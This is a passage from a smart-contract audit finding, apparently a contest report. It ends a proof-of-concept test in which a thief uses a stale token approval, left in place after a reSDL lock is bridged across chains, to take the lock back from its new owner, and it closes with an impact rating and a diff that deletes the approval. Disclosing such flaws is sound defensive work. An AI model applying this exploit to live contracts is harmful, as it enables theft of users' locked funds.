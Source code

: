 ```
        sdlPoolCCIPController.address,
        [{ token: sdlToken.address, amount: toEther(25) }]
      )


    // Now the victim owns the reSDL lock on the original chain
    assert.equal(await sdlPool.ownerOf(2), victim)

    // However, this lockId has the approval that originally the thief set to his alt account and victim do not know that
    assert.equal(await sdlPool.getApproved(2), thiefAccount2);

    // Thief transfers back to his main account the reSDL via his alt account
    await sdlPool
      .connect(signers[2])
      .transferFrom(victim, thief, lockId)

    // Thief is now the owner of the reSDL
    assert.equal(await sdlPool.ownerOf(2), thief)
  })
```

## Impact
High, possibility to steal funds

## Tools Used
Manual review

## Recommendations
When bridging a lock between chains, the lock approval should be deleted.

```diff
     function handleOutgoingRESDL(
         address _sender,
         uint256 _lockId,
         address _sdlReceiver
     )
         external
         onlyCCIPController
         onlyLockOwner(_lockId, _sender)
         updateRewards(_sender)
         updateRewards(ccipController)
         returns (Lock memory)
     {
         Lock memory lock = locks[_lockId];
 
         delete locks[_lockId].amount;
         delete lockOwners[_lockId];
         balances[_sender] -= 1;
+        delete tokenApprovals[_lockId];

         uint256 totalAmount = lock.amount + lock.boostAmount;
         effectiveBalances[_sender] -= totalAmount;
         effectiveBalances[ccipController] += totalAmount;

         sdlToken.safeTransfer(_sdlReceiver, lock.amount);

         emit OutgoingRESDL(_sender, _lockId);

         return lock;
     }
```